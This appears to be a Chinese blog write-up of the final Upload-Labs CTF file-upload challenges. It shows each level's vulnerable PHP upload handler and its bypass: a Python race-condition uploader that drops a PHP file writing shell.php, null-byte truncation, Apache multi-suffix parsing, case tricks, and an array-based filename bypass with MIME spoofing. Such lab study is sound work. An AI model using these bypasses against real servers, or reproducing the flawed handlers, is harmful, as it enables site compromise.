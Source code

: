 ```yaml
---
title: Upload-Labs的最后几道题
categories: ['CTF']
tags: ['文件上传漏洞']
cover: 'https://cdn.jsdelivr.net/gh/penginman/PicBed@master/cover/20201119174619.jpg'
date: 2020-11-19 08:47:19
---
```



## Pass-17

​	（windows环境，php版本5.2.17，题号是18题）

源码：

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

​	思路和前面的一样，获取文件信息，移动文件到**upload**文件夹，第12行使用了白名单验证，多了第14行的`rename`函数，看名称就是重命名的函数，所以我们可以在重命名之前访问我们上传的文件，所以这题用到了**上传竞争**，使用`python`脚本不断的向服务器上传文件，然后访问上传的文件，上传的文件中有一句代码`<?php fputs(fopen('shell.php','w'),'<?php phpinfo();?>');?>`这段代码执行以后，会创建一个名为`shell.php`里面有一句`<?php phpinfo();?>`的文件。

​	脚本代码

```python
#coding=utf-8
import requests
from multiprocessing import Pool
def CompeteUpload(list):
    url="http://upload-labs/Pass-18/index.php"   #上传页面
    geturl="http://upload-labs/upload/233.php"	 #访问上传文件
    file={'upload_file':('233.php',"<?php fputs(fopen('shell.php','w'),'<?php phpinfo();?>');?>",'image/jpeg')}
    data={'submit':'上传'}
    r=requests.post(url=url,data=data,files=file)
    #print "test upload...."
    r1=requests.get(url=geturl)
    if r1.status_code==200:
        print ("upload success!")
if __name__=="__main__":
    pool = Pool(10)
    pool.map(CompeteUpload, range(10000))
    pool.close()
    pool.join()
```

​	第一次用python的我在这里知道了`pip`。这道题因为要不断的上传和访问文件，所以对在线靶场不友好，所以才选择了本地环境解题。完工

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119090033.png)



## Pass-18（失手）

​	18题失手了没有思路，如果使用`include.php`文件包含的话还可以，看了看网上大部分的博客都是敷敷衍衍过去的，找到了一篇稍微有点思路的，使用的是`apache2.2.x的解析漏洞`，这个漏洞的思路就是，apache服务器在解析有多个后缀名的文件时，从最后一个开始向前扫描，如果不认识就跳过，直到遇到一个认识的文件后缀，就把这个文件以这个能识别的后缀解析。

[Apache文件解析漏洞](https://blog.csdn.net/qq_32434307/article/details/79480316)

[apache httpd多后缀解析漏洞复现](https://www.cnblogs.com/yuzly/p/11226377.html)

​	源码中还有一个可以突破的点是同样使用了**重命名函数**，所以应该还是可以使用竞争上传访问得到，但是使用了白名单验证，我实在是没招了所以~~先摸为敬~~。



## Pass-19

（windows环境，php5.2.17，magic_quotes_gpc=Off）

源码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

​	源码第七行使用了**POST**来接受文件的命名，前面有类似题的是使用了**0x00截断上传**，后面也同样是`move_uploaded_file`移动文件的函数，还使用了黑名单验证，方法就很明确，使用**截断上传**。别忘了截断上传需要的特定条件：php版本需要低于`5.3.29`、`magic_quotes_gpc`需要为关闭状态。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119164220.png)

​	同样是命名为`phpa`方便在十六进制表里修改为`00`

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119162729.png)

​	打开图片把url链接`http://upload-labs/upload/upload-19.php�`修改一下即可。完工

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119164458.png)

​	其实这道题还有一个思路，因为题目使用了**黑名单验证**，分析源码没有设置大小写过滤，所以也可以使用大小写方法通过如`Php`，不演示了。



## Pass-20

（LInux环境，php7.2.21）

源码：

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

​	这道题使用了`MIME`验证和白名单验证。先看第10行使用了`三目运算符`判断`$_POST['save_name']`是否为空，若为空则执行`:`前获取上传文件的名称，若不为空则获取POST中的`save_name`。第11行使用了`is_array`函数判断是否是一个数组，然后使用`explode`截断文件名转换小写并返回数组。也就是说，如果我们POST中的`save_name`是个数组的就可以跳过11行的判断。15行使用`end`函数获取数组中的最后一个元素用于后缀验证。20行把文件名进行拼接：数组**第一个**元素+数组元素**总数-1**的那个元素。

所以我们可以构造一个这样的数组用于绕过：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119170734.png)

​	数组[2]用于绕过白名单，文件名为：`数组[0].数组[1]`，但是数组[1]是空的所以只剩下`数组[0].`（后面有个点）

​	别忘了还要绕过**MIME**

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119172340.png)

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119172415.png)

完工

## 最后

​	Upload labs的20道题大部分完成了，有两道题没完成，但是也学到了不少东西，这些天再抽空写一个总结吧。射射观看。